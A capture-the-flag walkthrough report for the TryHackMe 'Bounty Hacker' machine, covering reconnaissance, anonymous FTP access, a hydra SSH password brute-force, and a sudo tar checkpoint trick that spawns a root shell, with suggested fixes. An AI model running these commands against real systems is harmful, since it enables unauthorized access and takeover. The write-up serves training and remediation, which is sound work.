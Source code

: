 # 🟩Bounty Hunter – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony
**Date:** August 08, 2025  
**Difficulty:** Easy  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Category:** Privilege Escalation / Web Exploitation  

---

## 📋 Executive Summary  

This report details my penetration test of the **Bounty Hacker** machine on TryHackMe (IP: `<ip_address>`). I identified security weaknesses, gained user access, and escalated to root to capture two flags (secret codes).  

The main issues were:  
- Open FTP server allowing anonymous access.  
- Exposed files with a username and password list.  
- Weak SSH credentials.  
- Misconfigured command allowing full system control.  

This beginner-friendly report explains the process simply, highlights vulnerabilities, and suggests fixes to secure the system.  

---

## 🎯 Scope  

I tested the Bounty Hacker machine to find security flaws, gain access, and capture the **user** and **root** flags. This simulated a real-world hack to learn how to find and fix vulnerabilities.  

---

## 🚨 Key Vulnerabilities  

| Vulnerability              | Impact                                    | Fix                                          |
|----------------------------|-------------------------------------------|----------------------------------------------|
| Anonymous FTP Access       | Exposed sensitive files to anyone         | Disable anonymous FTP or restrict access     |
| Exposed Password Files     | Revealed username and passwords for attacks | Secure files with permissions or encryption |
| Weak SSH Credentials       | Allowed unauthorized login as user `lin`  | Use strong passwords and enable MFA          |
| Misconfigured Sudo (`tar`) | Enabled full system control (root access) | Restrict sudo to safe, specific commands     |

---

## 🛠️ Exploitation Steps  

### 1. Scanning the System (Reconnaissance)  
**Time:** 08:30  
- **Command:**  
  ```bash
  nmap -sV <ip_address>
  ```

* **Findings:**  
  * Port 21: FTP (vsftpd 3.0.3) – file sharing  
  * Port 22: SSH (OpenSSH 7.2p2) – remote login  
  * Port 80: Apache 2.4.18 – web server  
  * Port 990: Closed (FTPS)  
* **Why It Matters:** Identified entry points (FTP, SSH) to focus my attack.  

---

### 2. Exploring FTP (File Access)  
**Time:** 08:35  
* **Command:**  
  ```bash
  ftp <ip_address>
  ```  
* **Actions:** Listed files with `ls -la`. Found:  
  * `task.txt`: Contained username `lin`  
  * `locks.txt`: List of passwords  
* **How I Read Them:** Used `less task.txt` and `less locks.txt` after `cat` failed.  
* **Why It Matters:** These files gave me a username and passwords to try for SSH.  

---

### 3. Breaking into SSH (User Access)  
**Time:** 08:45  
* **Command:**  
  ```bash
  hydra -l lin -P <file_path_to_locks> <ip_address> ssh
  ```  
* **Findings:** Found the correct password for `lin`.  
* **Next Steps:** Logged in via SSH and found `user.txt` with the user flag.  
  ```bash
  ssh lin@<ip_address>
  cat user.txt
  ```  
* **Why It Matters:** Gained user access and captured the first flag.  

---

### 4. Becoming Root (Privilege Escalation)  
**Time:** 09:00  
* **Command:**  
  ```bash
  sudo -l
  ```  
* **Findings:** `lin` could run `tar` as root.  

**Time:** 09:05  
* **Command:**  
  ```bash
  sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  ```  
* **Result:** Got a root shell (full system control).  

**Time:** 09:10  
* **Command:**  
  ```bash
  cat /root/root.txt
  ```  
* **Why It Matters:** Captured the root flag and took over the system.  

---

## 🧠 Lessons Learned  

* **Lock FTP:** Prevent anonymous access and limit file visibility.  
* **Hide Secrets:** Don’t leave usernames or passwords in open files.  
* **Secure SSH:** Use strong passwords and add multi-factor authentication (MFA).  
* **Fix Sudo:** Limit what commands users can run as root.  
* **Scan Regularly:** Use `nmap` to find and fix open services before attackers do.  

---

## 💻 Skills Demonstrated  

* Service Enumeration – `nmap`, `ftp`  
* Password Brute-Forcing – `hydra`  
* SSH Exploitation – gained user access with cracked credentials  
* Privilege Escalation – misconfigured `tar` command  

---

## 🛠️ Tools and Files Used  

**Tools:**  
* `nmap` – Scanned for open services  
* `ftp` – Accessed file server  
* `hydra` – Brute-forced SSH passwords  
* `ssh` – Logged into the system  
* `sudo` – Checked and exploited permissions  
* `tar` – Used for privilege escalation  

**Files:**  
* `task.txt`, `locks.txt`, `user.txt`, `root.txt`, `<file_path_to_locks>`  

**Environment:**  
* TryHackMe (Ubuntu Linux), Kali Linux  

---

## 🌟 Final Thoughts  

By exploiting these vulnerabilities, I showed how an attacker could take full control of a system, from accessing files to gaining root privileges. These issues—open FTP, exposed passwords, weak logins, and risky sudo settings—are common in real-world systems. Fixing them is critical to protect servers from hackers. This exercise improved my skills in finding and securing vulnerabilities, preparing me to protect real-world systems better.  
